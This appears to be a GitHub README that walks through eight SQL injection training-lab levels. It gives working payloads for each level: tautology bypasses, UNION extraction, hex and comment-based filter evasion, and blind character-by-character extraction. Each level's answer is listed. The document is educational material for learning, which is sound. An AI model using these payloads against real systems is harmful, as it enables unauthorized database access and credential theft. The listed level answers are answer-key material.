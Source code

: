 # SQL Injection Learning Repository

This repository serves as a comprehensive guide to learning about SQL injection and understanding how it works. The goal is to provide detailed explanations and examples to help you grasp the concepts behind SQL injection attacks.

## What is SQL Injection?

SQL injection is a type of web application vulnerability that allows attackers to inject malicious SQL code into an application's database query. This occurs when user-supplied input is not properly validated or sanitized before being used in SQL statements.

## Contents

- [Types of SQL Injection Attacks](#types-of-sql-injection-attacks)
- [Detecting and Preventing SQL Injection](#detecting-and-preventing-sql-injection)
- [Examples of SQL Injection](#examples-of-sql-injection)
- [Additional Resources](#additional-resources)

## Types of SQL Injection Attacks

Explore various types of SQL injection attacks, such as:

- Union-based SQL injection
- Blind SQL injection
- Error-based SQL injection
- Time-based SQL injection

## Detecting and Preventing SQL Injection

Learn about best practices and techniques for detecting and preventing SQL injection vulnerabilities in your applications. This section will cover topics like:

- Input validation and sanitization
- Prepared statements and parameterized queries
- Web application firewalls
- Database security measures

## Examples of SQL Injection

This section will provide practical examples of SQL injection attacks. We'll present vulnerable code snippets and demonstrate how an attacker can exploit them. It's important to note that these examples should only be used for educational purposes and must not be deployed in a production environment.

## Task 1: Retrieve Password for User with ID 12
![1sql](src/sql1.png)

To accomplish this, you need to execute the following SQL query against the database:

```
SELECT pass FROM users WHERE id = 12;
```
Upon executing the query, you will retrieve the password for the user with id=12, which is "QwErTy".

---
## Task 2: Retrieve Password for User with ID 9
![1sql](src/sql2.png)

To retrieve the password, you need to input a specific value that exploits the SQL injection vulnerability. Use the following command:

```
' or '1'='1
```
Upon executing the query, you will retrieve the password for the user with id=12, which is "secreto".
In SQL, the condition 1=1 is always true, so this modification effectively bypasses the original WHERE clause and retrieves all records from the users table.

---
## Task 3: Retrieve Password for User with ID 13
![1sql](src/sql3.png)

To retrieve the password, you can use the following command:
```
' or 1=1#
```
`OR 1=1` is used to make the first part of the query true, which allows bypassing the login condition.

`#` is used to comment out the rest of the query to prevent any syntax errors.
Upon executing the query, you will retrieve the password for the user with id=13, which is "iwanttogo4".

---

## Task 4: Extracting Password Using UNION
![1sql](src/sql4.png)

The goal is to retrieve data from the `secret` table where the field `ggg` is set to `'abc'` by using a UNION command. The initial SQL query given is:
```
' or 1=1 UNION SELECT * FROM secret WHERE ggg='abc'#
```

This modified query will perform a UNION operation between the users table and the secret table, allowing you to retrieve the data from the secret table where ggg='abc'.

Upon executing the query, you will retrieve the answer "super-secret-data".

---

## Task 5: Retrieving Password using UNION
![1sql](src/sql5.png)

To retrieve the password from the `secret` table using the UNION command, you can modify the query as follows:
```
' or 1=1 UNION SELECT *,1 FROM secret #
```

By injecting the UNION command and selecting the appropriate columns (1), you can fetch the `pass` field from the `secret` table.

Upon executing the query, you will retrieve the answer "thisisapass232".

---

## Task 6: Exploiting SQL Injection
![1sql](src/sql6.png)

1. Visit a website that converts text to hex format and convert the word "god" to hex.
2. Use the following SQL injection command:
```
-1 OR login=0x676F64#
```

By following these steps, you can bypass the filtering and retrieve the password for the user with the login 'god'.

Upon executing the query, you will retrieve the answer "ivarywantlevel7".

---

## Task 7:
![1sql](src/sql7.png)

1. Convert the word "gentoo" to its hexadecimal representation using an online tool or website. Let's assume it becomes "67656E746F6F" in hexadecimal.

2. Craft the following SQL injection command:

```
-1/**/OR/**/login/**/like/**/0x2567656E746F6F25#
```
* The /**/ sequence represents a space. It's used to bypass filters that may be in place to block spaces in the input.
* The "LIKE" keyword is used to perform a pattern match comparison. In this case, we want to match the login column with a specific pattern.
* The "0x2567656E746F6F25" is the hexadecimal representation of the string "gentoo". By using hexadecimal representation, we bypass the filtering of certain characters like single quotes ('), which are commonly used for string literals in SQL.

Upon executing the query, you will retrieve the answer "level8please".

---

## Task 8: Extracting Password Using SQL Injection
![1sql](src/sql8.png)
To extract the password character by character, we can use a series of SQL injection queries. Each query retrieves the ASCII value of a specific character in the password using the `MID` function.

Here is the step-by-step solution:
1. Inject the following string as the value of $text in the query:
```
0 or id <= (SELECT ASCII(MID((SELECT pass from users WHERE login='fast'), 1,1)))
```
This query retrieves the ASCII value of the first character of the password. In this case, the ASCII value is 57, which corresponds to the character "9".

2. Repeat the above step for the remaining characters of the password, incrementing the third argument of the MID function:
```
0 OR id <= (SELECT ASCII(MID((SELECT pass FROM users WHERE login='fast'), 2, 1)))
0 OR id <= (SELECT ASCII(MID((SELECT pass FROM users WHERE login='fast'), 3, 1)))
...
0 OR id <= (SELECT ASCII(MID((SELECT pass FROM users WHERE login='fast'), 9, 1)))
```
3. Then go to `ASCII to text` site and decrypt password

Upon executing the query, you will retrieve the answer "9levlpass".

---

## Additional Resources

- [learn sql injection site](https://sql.training.hackerdom.ru)
- [youtube video about sql injection](https://www.youtube.com/watch?v=p3DhMUXbFSg)
---

Feel free to modify this README.md file as you progress in your SQL injection learning journey. Add your own notes, code snippets, and findings to keep track of your progress and share your knowledge with others.

Remember to always perform ethical hacking and avoid using your newfound skills for any malicious or illegal activities. Stay curious and continue learning!

Happy hacking!

